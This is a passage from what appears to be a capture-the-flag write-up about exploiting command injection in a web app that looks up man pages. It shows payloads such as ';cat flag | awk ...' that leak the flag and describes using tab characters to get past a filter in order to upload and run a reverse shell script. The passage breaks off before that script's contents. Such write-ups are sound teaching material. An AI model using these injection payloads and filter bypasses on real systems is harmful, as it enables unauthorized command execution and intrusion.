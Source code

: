 ```` `` can run commands in a subshell. The limiting factor here is that the
#### Leak Flag

If I didn’t want to stand up the VPN and worry about getting a shell, I could
just use the command injection to generate output that will be displayed back
to me via the webpage.

If `;ls -la` is passed into `/section`, the command passed to `os.popen` is
`apropos -s ;ls -la .`. That will run, but none of the results will show on
the screen:

![image-20201215134612916](https://0xdfimages.gitlab.io/img/image-20201215134612916.png)

The reason is that the results are being passed to `parseCommands` and the
results are displayed back:

    
    
    def parseCommands(ret):
      commands = []
      for line in ret.split('\n'):
        l = line.split(' - ')
        if (len(l) > 1):
          m = l[0].split();
          manPage = ManPage(m[0], m[1].replace('(', '').replace(')',''), l[1])
          commands.append(manPage)
      return commands
    

It loops over the lines, and splits each line on `[space]-[space]`, and only
if there was that split results in multiple strings does it continue to then
split on space, and build the output. So the command output needs to be of the
form `m0 m1 - l1`, or else it will not be displayed. If there’s no
`[space]-[space]`, it just won’t print that line. If there’s no space to split
on in the first result before the `[space]-[space]`, it will crash and return
500 when it tries to access `m[1]`.

I used `awk` to manipulate the output from the command such that it fits this template. `ls -la | awk '{print m0 m1 - $0}'` will take the output, and for each line, add `m0 m1 - ` before it. So visiting `/section/;ls -la | awk '{print "m0 m1 - " $0}';` returns:

![image-20201215135521632](https://0xdfimages.gitlab.io/img/image-20201215135521632.png)

Seeing `flag` right there in the system root, `/section/;cat flag | awk '{print "m0 m1 - " $0}';` will return it:

![image-20201215135723553](https://0xdfimages.gitlab.io/img/image-20201215135723553.png)

#### Shell Via /search

Elf4711 thinks that they patched the `/search` path, but that is a very hard
thing to do, and this one isn’t good enough. I’m not able to use any of the
following characters: `[;& ()$|]`. Backticks are still available for subshell
execution. The biggest challenge is that it is filtering the space character.
One way to bypass that is to use the `$IFS` variable, but `$` is not allowed.
I used tab, which url-encodes to `%09`, in a two request solution to upload a
reverse shell and then execute it.

I created a simple reverse shell script named `shell.sh`:

    
    
    #!/bin/bash
    
````